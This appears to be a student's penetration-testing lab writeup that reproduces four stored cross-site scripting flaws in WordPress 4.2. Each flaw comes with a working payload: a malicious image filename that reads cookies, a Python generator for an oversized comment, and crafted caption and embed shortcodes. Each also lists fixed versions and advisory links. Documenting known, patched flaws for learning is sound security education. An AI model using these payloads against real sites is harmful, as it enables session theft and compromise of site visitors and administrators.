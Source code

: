# Week 7 & 8 - Wordpress Penetration testing

## Vulnerability 1:
Authenticated Stored Cross-Site Scripting via Image Filename

Steps:
1. Intro -The XSS code can be inserted as a crafted filename of any post attachment. This post when viewed can cause malicious actions to occur on the viewers computer.
2. The file name given to the image to be used here is:

"<img src=a onerror= alert (document.cookie)>.jpg"
3. The image is uploaded in a post as an attachment file.
4. When the post is viewed an alert pops up on the viewers screen.

Vulnerability Type:
Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.10

References: 
https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html

![](Week_7.gif)

## Vulnerability 2:
Unauthenticated Stored Cross Site Scripting:

Steps:
1. Intro - A text string that is longer than the SQL specified text field can lead to truncation and malformed HTML, opening up opportunities for XSS.
2. Create a string longer than the specified 64k character limit. Upoun truncation this renders as malformed HTML. Browsers try to fix this which leads to interpretation of the onmouseover exploit.
3. Create the string using the following python code to generate a file:

out = "<a title='xonmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px  "
with open('xss.txt','a') as f:
    f.write(out)
    for i in range(64*1024):
        f.write('X')
    f.write("</a>")

4. Use the string generated in a comment on WP.
5. View the comment to get the alerts(pop-ups) due to XSS.

Vulnerability Type:
Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.1

References:
https://wpvulndb.com/vulnerabilities/7945
http://klikki.fi/adv/wordpress2.html

![](comment_xss.gif)
    
## Vulnerability 3:
Authenticated Shortcode Tags Cross-Site Scripting

Steps:
1. Intro - Shortcode tags can be mixed with HTML to lead to malformed HTML, bypassing KSES validation and opening up XSS. Can lead to persistant XSS.

2. Enter the following code in a WP post:


TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'"> Click me </a>

3. View post to get XSS.

Vulnerability Type: Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.5

References: 
http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714

![](authenticated_shortcode_tage_xss.gif)

## Vulnerability 4:
Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

Steps:
1. Intro - A stored XSS vulnerability in YouTube Embed 3.3.2 (and possibly earlier versions) allows admin users to compromise other admins and super admins. YouTube Embed is a WordPress plugin with over 30,000 active installs.
2. Embed the following link into a WP post: 

[embed src='http://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
3. View post to get XSS.

Vulnerability Type: Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.13

References: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
https://packetstormsecurity.com/files/133340/WordPress-YouTube-Embed-3.3.2-Cross-Site-Scripting.html

![](youtube_embed_xss.gif)

